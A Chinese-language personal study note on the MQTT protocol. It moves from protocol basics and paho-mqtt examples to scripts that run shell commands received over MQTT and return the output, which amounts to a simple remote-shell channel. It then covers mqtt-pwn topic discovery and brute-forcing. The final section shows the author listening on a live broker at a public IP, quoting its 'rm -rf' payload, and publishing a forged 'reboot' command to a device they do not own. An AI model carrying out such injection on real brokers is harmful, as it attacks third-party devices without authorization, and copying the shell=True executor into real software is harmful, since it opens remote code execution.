










# mqtt   1883端口

## MQTT简介   
MQTT(Message Queuing Telemetry Transport, 消息队列遥测传输协议)，是一种基于发布/订阅(publish/subscribe)模式的"轻量级"通讯协议，该协议构建于TCP/IP协议上，由IBM在1999年发布。MQTT最大优点在于，可以以极少的代码和有限的带宽，为远程连接设备提过实时可靠的消息服务，作为一种低开销、低带宽占用的即时通讯协议，使其在物联网、小型设备、移动应用等方面有较广泛的应用
MQTT是一个基于客户端-服务器的消息发布/订阅传输协议。MQTT协议是轻量、简单、开放和易于实现的，这些特点使它适用范围非常广泛。在很多情况下，包括受限的环境中，如:机器与机器（M2M）通信和物联网(loT)。其在，通过卫星链路通信传感器、偶尔拨号的医疗设备、智能家居、及一些小型化设备中已广泛使用。

## 2 MQTT协议原理
### 2.1 MQTT协议实现方式
实现MQTT协议需要客户端和服务器端通讯完成， 在通讯过程中, MQTT协议中有三种身份: 发布者(Publish)、代理(Broker)(服务器)、订阅者(Subscribe)。 其中，消息的发布者和订阅者都是客户端，消息代理是服务器，消息发布者可以同时是订阅者。


主题的概念为


## 2.2 MQTT客户端
一个使用MQTT协议的应用程序或者设备，它总是建立到服务器的网络连接。客户端可以

发布其他客户端可能会订阅的信息
订阅其他客户端发布的消息
退定或删除应用程序的消息
断开与服务器的连接

## 2.3 MQTT服务器端
MQTT服务器以称为"消息代理"(Broker), 可以是一个应用程序或一台设备，它是位于消息发布者和订阅者之间，它可以:

接受来自客户的网络连接
接受客户发布的应用信息
处理来自客户端的订阅和退订请求
向订阅的客户转发应用程序消息

## MQTT消息格式


MQTT消息由固定头部、可变头部和负载组成。固定头部包含消息的基本信息，如消息类型、服务质量（QoS）级别、保留标志等。




固定头部的结构如下：

消息类型（Message Type）：表示消息的类型，如CONNECT、PUBLISH、SUBSCRIBE等。
服务质量（QoS）：表示消息的服务质量级别，有三个级别：QoS 0、QoS 1和QoS 2。
保留标志（Retain）：表示消息是否需要保留

## MQTT的操作方法
MQTT协议支持多种操作方法，主要包括：

CONNECT：客户端连接到服务器。
PUBLISH：客户端向服务器发布消息。
SUBSCRIBE：客户端向服务器订阅主题。
UNSUBSCRIBE：客户端取消订阅主题。
DISCONNECT：客户端断开与服务器的连接


## MQTT的服务质量（QoS）
MQTT协议支持三种服务质量（QoS）级别，以确保消息的可靠传输：

QoS 0：至多一次：消息最多传输一次，不保证消息到达。适用于对消息丢失不敏感的场景。
QoS 1：至少一次：消息至少传输一次，可能会重复。适用于需要确保消息到达但允许重复的场景。
QoS 2：仅一次：消息仅传输一次，确保消息不丢失且不重复。适用于需要严格保证消息唯一性的场景。

## MQTT的保留消息和遗嘱消息
保留消息：保留消息会被服务器保存，并在新的客户端订阅相应主题时立即发送给客户端。保留消息可以确保新订阅的客户端能够获取最新的状态信息。

遗嘱消息：遗嘱消息是在客户端意外断开连接时，由服务器代为发布的消息。遗嘱消息可以通知其他客户端某个设备已下线或出现故障。

---


MQTT的实现
为了更好地理解MQTT协议的实际应用，以下是一个简单的MQTT实现示例，包括客户端和服务器的代码

服务端
```
import paho.mqtt.client as mqtt
 
# 连接回调函数
def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe("test/topic")
 
# 消息回调函数
def on_message(client, userdata, msg):
    print(f"{msg.topic} {msg.payload}")
 
# 创建MQTT客户端
client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
 
# 连接MQTT服务器
client.connect("mqtt.eclipse.org", 1883, 60)
 
# 开始循环，等待消息
client.loop_forever()
```

客户端
```
import paho.mqtt.client as mqtt
 
# 创建MQTT客户端
client = mqtt.Client()
 
# 连接MQTT服务器
client.connect("mqtt.eclipse.org", 1883, 60)
 
# 发布消息到主题
client.publish("test/topic", "Hello MQTT")
 
# 断开连接
client.disconnect()
```








mqtt-pwn工具


参考链接：[mqtt-intro.html](https://www.runoob.com/w3cnote/mqtt-intro.html)


---


# mqtt服务搭建 


```
sudo apt update
sudo apt install mosquitto

```

---
# 1.最小mqttfu服务

broker.py
```
import paho.mqtt.client as mqtt

# 当客户端收到来自服务器的连接确认响应时，调用此函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected successfully.")
        # 订阅主题
        client.subscribe("test/topic")
    else:
        print(f"Connection failed with code {rc}")

# 当客户端接收到订阅主题的消息时，调用此函数
def on_message(client, userdata, msg):
    print(f"Received message '{msg.payload}' on topic '{msg.topic}' with QoS {msg.qos}")

# 创建 MQTT 客户端实例
client = mqtt.Client()

# 指定连接回调函数
client.on_connect = on_connect

# 指定消息回调函数
client.on_message = on_message

# 连接到本地 MQTT 服务器
client.connect("localhost", 1883, 60)

# 阻塞循环，等待消息
client.loop_forever()
```


publish.py
```
import paho.mqtt.client as mqtt
import time 

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
    else:
        print("Failed to connect, return code %d\n", rc)

# 创建MQTT客户端实例
client = mqtt.Client()

# 为客户端设置连接成功的回调函数
client.on_connect = on_connect

# 连接到MQTT服务器，这里使用localhost和1883端口，60秒超时
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量和自动重连
client.loop_start()

# 发布消息到主题"test/topic"，消息内容为"Hello MQTT"，QoS为1
client.publish("test/topic", "Hello MQTT,i am publish,this my test", qos=2)

# 等待一段时间，确保消息被发送
time.sleep(1)

# 断开与MQTT服务器的连接
client.disconnect()

# 停止网络流量处理的线程
client.loop_stop()
```


subscribe.py
```
import paho.mqtt.client as mqtt
import time

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 订阅主题test/topic
        client.subscribe("test/topic")
    else:
        print("Failed to connect, return code %d\n", rc)

# 当接收到订阅主题的消息时调用的回调函数
def on_message(client, userdata, msg):
    print(f"Received message '{msg.payload}' on topic '{msg.topic}' with QoS {msg.qos}")

# 创建MQTT客户端实例
client = mqtt.Client()

# 设置连接成功的回调函数
client.on_connect = on_connect

# 设置消息接收的回调函数
client.on_message = on_message

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量和消息接收
client.loop_start()

# 等待一段时间，以便订阅生效并接收消息
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    pass

# 断开与MQTT服务器的连接
client.disconnect()

# 停止网络流量处理的线程
client.loop_stop()
```


三个分别为broker ,publish 和subscribe  

broker作为中间代理
publish发布消息到主题"test/topic"，消息内容为"Hello MQTT"，QoS为1
subscribe 订阅这个主题后，会得到内容，收到消息。


---

# 2.实现读取功能的mqtt服务


broker.py
```
import paho.mqtt.client as mqtt

# 当客户端收到来自服务器的连接确认响应时，调用此函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected successfully.")
        # 订阅主题
        client.subscribe("test/topic")
    else:
        print(f"Connection failed with code {rc}")

# 当客户端接收到订阅主题的消息时，调用此函数
def on_message(client, userdata, msg):
    print(f"Received message '{msg.payload}' on topic '{msg.topic}' with QoS {msg.qos}")

# 创建 MQTT 客户端实例
client = mqtt.Client()

# 指定连接回调函数
client.on_connect = on_connect

# 指定消息回调函数
client.on_message = on_message

# 连接到本地 MQTT 服务器
client.connect("localhost", 1883, 60)

# 阻塞循环，等待消息
client.loop_forever()
```


publish_readinfo.py
```
import paho.mqtt.client as mqtt
import time

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 连接成功，现在可以发布消息
        publish_info()
    else:
        print("Failed to connect, return code %d\n", rc)

def publish_info():
    # 尝试读取当前目录下的info.txt文件
    try:
        with open('info.txt', 'r') as file:
            info_content = file.read()
            # 发布读取到的内容到主题test/readinfo
            client.publish("test/readinfo", info_content, qos=2)
            print("Info from info.txt has been published.")
    except FileNotFoundError:
        print("info.txt not found in the current directory.")
    except Exception as e:
        print(f"An error occurred: {e}")

# 创建MQTT客户端实例
client = mqtt.Client()

# 为客户端设置连接成功的回调函数
client.on_connect = on_connect

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量和自动重连
client.loop_start()

# 等待一段时间，确保消息被发送
time.sleep(1)

# 断开与MQTT服务器的连接
client.disconnect()

# 停止网络流量处理的线程
client.loop_stop()
```

subscribe_readinfo.py
```
import paho.mqtt.client as mqtt

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected successfully.")
        # 订阅主题test/readinfo
        client.subscribe("test/readinfo")
    else:
        print(f"Connection failed with return code {rc}")

# 当接收到订阅主题的消息时调用的回调函数
def on_message(client, userdata, msg):
    print(f"Received message on topic '{msg.topic}' with QoS {msg.qos}:")
    print(f"Message payload: {msg.payload.decode()}")

# 创建 MQTT 客户端实例
client = mqtt.Client()

# 为客户端设置连接成功的回调函数
client.on_connect = on_connect

# 为客户端设置消息接收的回调函数
client.on_message = on_message

# 连接到MQTT服务器，这里使用localhost和1883端口
client.connect("localhost", 1883, 60)

# 阻塞循环，等待消息
client.loop_forever()
```


、

broker作为代理
publish发布了一个主题为test/readinfo  ,每次有subscribe订阅消息时，调用on_connect（）  ,然后在on_connect （）函数中会去调用我们的读取info.txt函数publish_info，以此达到当subscribe访问时，传递主题信息。

subscribe只需要设定主题访问，接受消息。

---

# mqtt  实现命令执行
注意mqtt是消息是单向从publish通过broker传递到subscribe。
传递信息后，具体实现什么功能，是mqtt协议之上的事，是由用户自定义程序来处理得到的订阅消息，然后自己来进行逻辑处理的。

如下实现一个简单的由publish传递命令，然后由subscribe得到消息，将消息用来命令执行。

public_telnet.py
```
import paho.mqtt.client as mqtt

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 连接成功后发布消息
        client.publish("test/telnet", "ls", qos=0)
        # 发布完成后断开连接
        client.disconnect()
    else:
        print("Failed to connect, return code %d\n", rc)

# 创建MQTT客户端实例
client = mqtt.Client()

# 设置连接成功的回调函数
client.on_connect = on_connect

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量
client.loop_start()

# 等待一段时间，确保消息被发送
client.loop_stop()
```

subscribe_telnet.py
```
import paho.mqtt.client as mqtt
import subprocess

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 订阅命令执行主题test/telnet
        client.subscribe("test/telnet")
    else:
        print("Failed to connect, return code %d\n", rc)

# 当接收到订阅主题的消息时调用的回调函数
def on_message(client, userdata, msg):
    print(f"Received command: {msg.payload.decode()}")
    # 执行命令
    execute_command(msg.payload.decode())

# 执行命令的函数
def execute_command(command):
    try:
        # subprocess.run with shell=True can be a security hazard if the command
        # includes unsanitized input from an untrusted source.
        result = subprocess.run(command, shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, universal_newlines=True)
        print(f"Command executed successfully: {command}")
        print(f"Output: {result.stdout}")
    except subprocess.CalledProcessError as e:
        print(f"An error occurred while executing the command: {command}")
        print(f"Error: {e.stderr}")

# 创建MQTT客户端实例
client = mqtt.Client()

# 设置连接成功的回调函数
client.on_connect = on_connect

# 设置消息接收的回调函数
client.on_message = on_message

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 阻塞循环，等待消息
client.loop_forever()
```



实现了用mqtt协议，publish发送执行命令到订阅消息/test/telnet/  ,  然后subscibe订阅消息后，收到消息，自己进行命令执行。

---

# mqtt实现双向命令执行通信

物联网中，如何通过mqtt协议双向通信？
在物联网（IoT）中，虽然MQTT协议本身是发布-订阅（pub-sub）模式的，意味着消息传递本质上是单向的，但你仍然可以通过设计来实现双向通信。以下是一些实现MQTT双向通信的方法：

## 1.请求-响应主题：
设计两组主题，一组用于发送请求，另一组用于发送响应。例如，客户端A可以在request/front_door上发布一个消息，请求打开前门。客户端B可以订阅这个请求主题，执行操作，然后在response/front_door上发布一个响应消息。
主题分发：

## 2使用不同的主题来区分消息的类型，.
如命令、状态更新、事件等。每个设备或服务订阅它需要响应的消息类型，并发布它需要通知其他方的状态或事件。

## 3消息关联：
在消息中包含一个唯一的标识符（如消息ID或请求ID），这样接收方就可以在响应消息中引用这个ID，从而将响应与特定的请求关联起来。

## 遗嘱消息：
MQTT客户端可以设置遗嘱消息（Last Will and Testament），如果客户端意外断开连接，MQTT代理将自动发布这个遗嘱消息到指定的主题。

## 定期心跳：
使用心跳消息来保持连接的活跃性，同时也可以作为双向通信的一部分，表明设备仍然在线并响应。

** 我们来实现一个请求-响应的双向通信**

publish_bothway_telnet.py
```
import paho.mqtt.client as mqtt

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 用户输入命令
        command = input("Enter the command to publish (type 'exit' to quit): ")
        if command.lower() == 'exit':
            print("Exiting...")
            client.disconnect()
            return
        # 发布用户输入的命令到test/telnet主题
        client.publish("test/telnet", command, qos=0)
        print(f"Command '{command}' published to topic 'test/telnet'")
        # 订阅响应主题以接收命令执行结果
        client.subscribe("test/telnet/response")
    else:
        print("Failed to connect, return code %d\n", rc)

# 当接收到订阅主题的消息时调用的回调函数
def on_message(client, userdata, msg):
    print(f"Received response on topic '{msg.topic}' with QoS {msg.qos}: {msg.payload.decode()}")

# 创建MQTT客户端实例
client = mqtt.Client()

# 设置连接成功的回调函数
client.on_connect = on_connect

# 设置消息接收的回调函数
client.on_message = on_message

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量和消息循环
client.loop_start()

# 持续监听用户输入
try:
    while True:
        # 等待用户输入命令
        command = input("Enter the command to publish (type 'exit' to quit): ")
        if command.lower() == 'exit':
            break
        # 发布命令到MQTT
        client.publish("test/telnet", command, qos=0)
except KeyboardInterrupt:
    # 手动中断（Ctrl+C）时退出循环
    print("\nDisconnecting...")

# 断开与MQTT服务器的连接
client.disconnect()

# 停止网络流量处理的线程
client.loop_stop()
```


subscribe_bothway_telnet.py
```
import paho.mqtt.client as mqtt
import subprocess

# 当连接成功时调用的回调函数
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT Broker!")
        # 订阅命令执行主题test/telnet
        client.subscribe("test/telnet")
    else:
        print("Failed to connect, return code %d\n", rc)

# 当接收到订阅主题的消息时调用的回调函数
def on_message(client, userdata, msg):
    message = msg.payload.decode()
    print(f"Received command on topic '{msg.topic}' with QoS {msg.qos}: {message}")
    # 执行命令并发布结果
    execute_command_and_publish_result(client, message)

# 执行命令并发布结果的函数
# 执行命令并发布结果的函数
def execute_command_and_publish_result(client, command):
    try:
        # 使用subprocess执行命令
        # 对于Python 3.6，使用universal_newlines=True而不是text=True
        result = subprocess.run(command, shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, universal_newlines=True)
        print(f"命令执行成功: {command}")
        print(f"输出: {result.stdout}")
        # 将执行结果发布到test/telnet/response主题
        client.publish("test/telnet/response", result.stdout, qos=1)
    except subprocess.CalledProcessError as e:
        print(f"执行命令时发生错误: {command}")
        print(f"错误信息: {e.stderr}")
        # 如果命令执行失败，可以选择将错误信息发布到响应主题
        client.publish("test/telnet/response", e.stderr, qos=1)

# 创建MQTT客户端实例
client = mqtt.Client()

# 设置连接成功的回调函数
client.on_connect = on_connect

# 设置消息接收的回调函数
client.on_message = on_message

# 连接到MQTT服务器
client.connect("localhost", 1883, 60)

# 启动一个线程来处理网络流量和自动重连
client.loop_start()

# 阻塞循环，等待消息
client.loop_forever()
```


public发布要执行的命令到/test/telnet主题，同时等待去/test/telnet/response去去读信息。
subscribe在/test/telnet读到消息后，在本机上执行命令，同时将结果发布在/test/telnet/response中

这样就实现了命令执行。




---

# 安装
```
安装MQTT服务：
sudo apt-get install mosquitto mosquitto-clients -y
安装完成后查看是否安装成功：
sudo systemctl status mosquitto.service
```


# 修改配置文件
```
MQTT的配置文件叫mosquitto.conf ，一般存放在 /etc/mosquitto 目录下

sudo vim /etc/mosquitto/mosquitto.conf 

在文件最底下添加如下内容：

listener 1883
allow_anonymous true
password_file /etc/mosquitto/pwfile.example
```


内容解析:
listener是MQTT监听的端口号，可以自行修改
allow_anonymous是匿名访问漏洞的罪魁祸首，当为true时，便支持匿名访问，为false则禁止匿名访问.password file是存放MQTT账号密码的文件参数。


# 添加账号密码
```
使用方法： mosquitto_passwd 存放密码文件路径 账号
命令如下：
sudo mosquitto_passwd -c /etc/mosquitto/passwd zkx

密码设置为：123456789

```

# 重启服务
```
命令如下：
sudo systemctl restart mosquitto.service
```


# 发布主题，订阅主题

```
订阅主题命令：
sudo mosquitto_sub -h 服务器ip -t 订阅的主题 -u 用户名 -P 密码
sudo mosquitto_sub -h 127.0.0.1 -t test/mqtt -u zkx -P 123456789

发布主题命令：
sudo mosquitto_pub -h 服务器ip -t 订阅的主题 -u 用户名 -P 密码 -m 发布的消息
sudo mosquitto_pub -h 127.0.0.1 -t test/mqtt -u zkx -P 123456789 -m thisIsmqtt
```


---

# mqtt-pwn

## conda
```
 1992  conda env list
 1994  conda activate mqtt-pwn

  python run.py
```


```
连接

connect -o 127.0.0.1 -u zkx -w 123456789


```

```
系统信息 
system_info 
```



```

发现并扫描
discovery 

scans 


127.0.0.1:1883 >> discovery 
[!] Starting MQTT discovery (id #1) ...
127.0.0.1:1883 >> 
[+] Scan #1 has finished!
127.0.0.1:1883 >> 
127.0.0.1:1883 >> scans 
+----+-----------------+----------------------------+---------+
| ID |       Type      |         Created At         | Is Done |
+----+-----------------+----------------------------+---------+
| 1  | topic_discovery | 2024-08-20 21:02:50.633228 |   True  |
+----+-----------------+----------------------------+---------+
127.0.0.1:1883 >> scans -i 1
127.0.0.1:1883 [Scan #1] >> topics 
[+] Fetching data..
+----+------------------------------------------+-------+
| ID | Topic                                    | Label |
+----+------------------------------------------+-------+
| 23 | $SYS/broker/bytes/received               |       |
| 15 | $SYS/broker/retained messages/count      |       |
| 1  | $SYS/broker/version                      |       |
| 6  | $SYS/broker/clients/disconnected         |       |
| 26 | $SYS/broker/load/messages/received/5min  |       |
| 16 | $SYS/broker/heap/current                 |       |
| 34 | $SYS/broker/load/publish/sent/1min       |       |
| 24 | $SYS/broker/bytes/sent                   |       |
| 27 | $SYS/broker/load/messages/received/15min |       |
| 21 | $SYS/broker/publish/bytes/received       |       |
| 17 | $SYS/broker/heap/maximum                 |       |
| 40 | $SYS/broker/load/bytes/sent/1min         |       |
| 4  | $SYS/broker/clients/total                |       |
| 30 | $SYS/broker/load/messages/sent/15min     |       |
| 35 | $SYS/broker/load/publish/sent/5min       |       |
| 22 | $SYS/broker/publish/bytes/sent           |       |
| 41 | $SYS/broker/load/bytes/sent/5min         |       |


127.0.0.1:1883 [Scan #1] >> messages 
[+] Fetching data..
+-----+------------------------------------------+---------------------------------+-------+
|  ID | Topic                                    | Message                         | Label |
+-----+------------------------------------------+---------------------------------+-------+
|  83 | $SYS/broker/publish/bytes/sent           | 366                             |       |
| 125 | $SYS/broker/load/sockets/5min            | 0.48                            |       |
| 116 | $SYS/broker/load/bytes/received/1min     | 105.32                          |       |
|  67 | $SYS/broker/load/connections/5min        | 0.52                            |       |
|  72 | $SYS/broker/load/bytes/sent/15min        | 172.70                          |       |
|  39 | $SYS/broker/load/bytes/received/15min    | 33.62                           |       |
| 166 | $SYS/broker/load/sockets/1min            | 0.59                            |       |
| 137 | $SYS/broker/load/messages/received/1min  | 2.91                            |       |
|  87 | $SYS/broker/load/publish/sent/1min       | 79.58                           |       |
|  51 | $SYS/broker/clients/maximum              | 3                               |       |
| 146 | $SYS/broker/load/publish/sent/5min       | 29.01                           |       |


```


---
# 爆破mqtt


默认用自带的字典进行爆破



cat /etc/mosquitto/mosquitto.conf 中的allow_anonymous true允许匿名访问，为false，不允许匿名访问。

如果不设置的话，默认允许匿名访问 。


```
bruteforce --host 127.0.0.1 --port 1883
```


----


nmap探测
```

探测主机存活
nmap 192.168.2.*

快速探测主机存活
nmap -F 192.168.1.0/24

扫描1883端口
nmap -p 1883 192.168.2.*


```


修改mqtt密码
```
sudo mosquitto_passwd -D /etc/mosquitto/passwd zkx

sudo mosquitto_passwd /etc/mosquitto/passwd zkx

```


----


# mqtt利用

找了一个在线可用的

监听后发现，client/haz2_350616250911541发布了命令 

那么这里我们可以假装发布者，发布命令。


sudo mosquitto_sub -t client/haz2_350616250911541 -h 104.168.173.151
[sudo] password for iot: 


收到的原始命令
{"liveTasks":[{"type":"CMD","params":{"cmd":"rm -rf /data/data/com.google.service.google.center.family/files/.APPLIST /data/data/com.google.service.google.center.family/files/.SHELL*"}}]}


发布命令
```
sudo mosquitto_pub -t client/haz2_350616250911541 -h 104.168.173.151 -m '{"liveTasks":[{"type":"CMD","params":{"cmd":"reboot"}}]}'


-t 主题
-h broker的ip
-m 发送内容

```